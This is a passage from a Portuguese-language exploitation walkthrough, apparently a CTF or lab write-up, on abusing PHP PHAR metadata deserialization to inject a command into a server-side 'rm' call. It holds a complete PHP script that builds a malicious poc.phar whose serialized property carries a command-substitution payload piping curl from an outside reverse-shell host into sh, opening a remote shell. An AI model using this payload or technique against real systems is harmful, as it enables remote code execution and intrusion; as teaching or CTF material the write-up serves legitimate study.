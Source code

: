 Agora vamos começar alterando o nome da classe "PDFGenerator" para o nome da nossa classe vulnerável.

```
PDFGenerator —> Package
```

Depois o objeto "filename" para o nome do nosso objeto onde temos que escrever o payload 

```
filename —> package_name
```

E então temos que escrever a nossa payload, como o comando que vai rodar é um "rm" teremos que escapar dele:

```
rm payload
```

Existem várias formas de se fazer isso( | , ; ) irei fazer com $(), o comando rodaria mais ou menos assim no servidor:

```
rm $(payload)
```

Assim estaríamos escapando do "rm" e podendo escrever o que quiséssemos de comando no lugar de payload.

O script terá que ficar mais ou menos assim:

```php
<?php
class Package { }

//Create a new instance of the Dummy class and modify its property
$dummy = new Package();
//$dummy->callback = "passthru";
$dummy->package_name = "$(curl http://reverse-shell.sh/172.31.228.136:1234 | sh ) "; //our payload

// Delete any existing PHAR archive with that name
@unlink("poc.phar");

// Create a new archive
$poc = new Phar("poc.phar");

// Add all write operations to a buffer, without modifying the archive on disk
$poc->startBuffering();

// Set the stub
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

/* Add a new file in the archive with "text" as its content*/
$poc["file"] = "text";
// Add the dummy object to the metadata. This will be serialized
$poc->setMetadata($dummy);
// Stop buffering and write changes to disk
$poc->stopBuffering();
?>
```
